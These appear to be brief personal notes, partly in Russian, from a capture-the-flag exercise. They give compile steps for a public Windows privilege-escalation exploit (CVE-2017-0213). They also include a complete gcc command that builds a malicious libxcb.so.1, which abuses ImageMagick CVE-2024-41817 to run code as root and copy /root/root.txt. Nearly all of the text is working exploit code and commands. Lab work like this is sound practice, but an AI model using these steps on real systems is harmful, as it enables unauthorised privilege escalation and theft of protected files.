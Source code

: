 # CVE

# CVE-2017-0213

https://github.com/WindowsExploits/Exploits/blob/master/CVE-2017-0213/Readme.md

in file cpp
#pragma comment(lib, "Advapi32.lib")

заменить cmd

vcvars64.bat

cl CVE-2017-0213.cpp /DUNICODE /D_UNICODE /EHsc



# ImageMagick---> CVE-2024–41817, которая позволяет выполнять произвольный код, загружая вредоносные общие библиотеки в текущий рабочий каталог при выполнении ImageMagick:

   Из identify_images.sh мы знаем, что рабочий каталог находится в /opt/app/static/assets/images/. Давайте создадим там общую библиотеку, которая копирует файл /root/root.txt и изменяет его права доступа:
    
    gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>

    __attribute__((constructor)) void init(){
     system("cp /root/root.txt root.txt; chmod 754 root.txt");
     exit(0);
    } 
    EOF
